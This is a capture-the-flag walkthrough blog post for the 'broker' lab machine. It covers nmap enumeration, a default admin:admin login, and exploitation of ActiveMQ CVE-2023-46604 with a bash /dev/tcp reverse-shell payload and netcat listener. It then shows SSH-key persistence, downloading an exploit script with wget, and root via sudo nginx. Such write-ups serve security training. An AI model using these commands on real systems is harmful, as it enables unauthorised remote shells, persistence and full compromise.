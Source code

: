 ```yaml
---
layout: post
title: "broker"
date: 2025-08-30 
categories: ctf
---
```

# broker

First enumerate ports and services:

```bash
sudo nmap -sC -sV 10.10.11.243 -oN nmap/broker

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let’s visit the site. We get prompt login, let’s try admin:admin. We are in:

![image.png]({{ site.baseurl }}/assets/broker/image.png)

Searching up ActiveMQ, we learn that it operates on port 61616:

```bash
sudo nmap -sC -sV 10.10.11.243 -p 61616

PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport 5.15.15

```

We get the version.

Searching up the following: activemq version 5.15.15 exploit github; we find this https://github.com/evkl1d/CVE-2023-46604

Let’s git clone the repo:

```bash
git clone https://github.com/evkl1d/CVE-2023-46604.git
```

Now change the IP in poc.xml:

```bash
<value>bash -i &gt;&amp; /dev/tcp/10.10.16.2/9001 0&gt;&amp;1</value>
```

Host it on a simple python server and start a listener for the reverse shell:

```bash
python3 -m http.server 8001

nc -lnvp 9001
```

Now execute the exploit:

```bash
python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>

python exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.16.2:8001/poc.xml
```

We now have shell:

![image.png]({{ site.baseurl }}/assets/broker/image%201.png)

Let’s get ssh access and maintain persistence. 

```bash
#Let's create a ssh key on attack host
ssh-keygen -f activemq
cat activemq.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEhNpSvqSCXSvmDjjeeQdX+sbRx/I8ISmjaBgP19B0S2 kali@kali
#Now cat the content and echo it to authorized_keys on target host
mkdir .ssh
cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEhNpSvqSCXSvmDjjeeQdX+sbRx/I8ISmjaBgP19B0S2 kali@kali" >> authorized_keys

#Now we try to login:
chmod 600 activemq #change to secure permission to allow use of private key

ssh -i activemq activemq@10.10.11.243

```

We are now on ssh.

Let’s check the ports:

```bash
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                         
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*                                   
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*                                   
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                   
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=946,fd=146))
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=946,fd=154))
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=946,fd=144))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=946,fd=145))
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=946,fd=148))
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=946,fd=143))
LISTEN 0      50                 *:41141            *:*    users:(("java",pid=946,fd=26)) 
LISTEN 0      128             [::]:22            [::]:*
```

We are not in privileged groups. 

Let’s see if we have any sudo privileges:

```bash
sudo -l

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

We can use nginx.

We search up nginx sudo exploit and find this:

[https://github.com/DylanGrl/nginx_sudo_privesc](https://github.com/DylanGrl/nginx_sudo_privesc)

Let’s try it:

```bash
#on target
wget http://10.10.16.2:8001/exploit.sh
chmod +x exploit.sh
```

The private key should be displayed now. Copy the private key, save it. Then:

```bash
chmod 600 rootkey
ssh -i rootkey root@10.10.11.243
```

We now have root.

![image.png]({{ site.baseurl }}/assets/broker/image%202.png)